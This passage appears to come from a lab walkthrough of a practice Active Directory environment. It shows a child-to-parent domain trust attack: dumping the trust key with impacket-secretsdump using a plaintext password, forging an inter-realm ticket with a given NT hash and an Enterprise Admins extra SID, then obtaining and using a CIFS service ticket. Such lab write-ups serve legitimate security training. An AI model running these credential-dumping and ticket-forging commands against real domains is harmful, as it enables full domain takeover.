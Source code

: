 - The trust key can be found by targeting the netbios name of the domain on the ntds
    
```
impacket-secretsdump -just-dc-user 'SEVENKINGDOMS$' north.sevenkingdoms.local/eddard.stark:'FightP3aceAndHonor!'@192.168.56.11
```
![screenshot](pics/secretdump_sevenkingdom.png)


- Now we got the trust key we can forge the ticket just like we done with the krbtgt user hash but this time we will set the spn : krbtgt/parent_domain
```
impacket-ticketer -nthash 0c4268c05b1fd45176eeae4545abdca9 -domain-sid S-1-5-21-3063484405-1734582374-3186417267 -domain north.sevenkingdoms.local -extra-sid S-1-5-21-400042831-3601909111-1956920762-519 -spn krbtgt/sevenkingdoms.local trustfakeuser
```
![screenshot](pics/trustfakeuser.png)


- Now we will use the forged TGT to ask a ST on the parent domain
```
export KRB5CCNAME=./trustfakeuser.ccache  
impacket-getST -k -no-pass -spn cifs/kingslanding.sevenkingdoms.local sevenkingdoms.local/trustfakeuser@sevenkingdoms.local -debug
```
![screenshot](pics/getST_trustfakeuser.png)


- And now we can use our service ticket :)
- connect with smbclient
```
export KRB5CCNAME=
impacket-smbclient -k -no-pass trustfakeuser@kingslanding.sevenkingdoms.local
```
![screenshot](pics/golden_ticket_smbclient.png)
